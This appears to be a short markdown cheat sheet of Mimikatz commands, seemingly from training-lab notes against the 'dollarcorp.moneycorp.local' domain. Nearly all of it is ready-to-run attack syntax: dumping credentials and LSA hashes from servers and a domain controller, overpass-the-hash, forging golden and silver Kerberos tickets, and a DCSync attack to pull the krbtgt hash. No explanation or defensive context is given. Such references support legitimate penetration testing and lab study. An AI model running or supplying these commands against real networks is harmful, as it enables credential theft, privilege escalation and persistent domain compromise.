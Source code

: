 ```yaml
---
title: mimikatz-cheatsheet
date: 2020-11-22 17:20:01
tags:
---
```



# Mimikatz Cheatsheet

## Dump Creds

```
Invoke-Mimikatz -DumpCreds

Invoke-Mimikatz -DumpCreds -ComputerName @("server1","server2")
```

## Over Pass The Hash 

```
Invoke-Mimikatz -Command "sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlm_hash> /run:powershell.exe"
```

## Dump Hashes
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc
```

## Creating Tickets

### Create A Golden Ticket

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain_SID> /krbtgt:<NTLM_hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Create A Silver Ticket

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

## DCSync Attack

DA privileges required!

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 
```
